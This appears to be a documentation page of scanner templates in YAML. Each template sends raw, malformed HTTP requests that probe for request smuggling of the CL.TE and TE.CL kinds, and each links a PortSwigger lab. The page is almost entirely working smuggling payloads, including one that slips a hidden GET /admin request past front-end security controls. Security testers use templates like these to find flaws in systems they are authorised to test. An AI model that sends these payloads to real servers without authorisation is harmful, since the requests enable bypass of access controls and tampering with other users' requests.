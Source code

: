 ### Basic CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.

```yaml
id: CL.TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  lab: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

### Basic TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: TE.CL-http-smuggling

info:
  name: HTTP request smuggling, basic TE.CL vulnerability
  author: pdteam
  severity: info
  lab: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

### Frontend bypass CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: smuggling-bypass-front-end-controls-cl-te

info:
  name: HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
  author: pdteam
  severity: info
  lab: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "/admin/delete?username=carlos")'
```

### Differential responses based CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-cl-te-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
  author: pdteam
  severity: info
  lab: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```

### Differential responses based TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-te-cl-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
  author: pdteam
  severity: info
  lab: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```

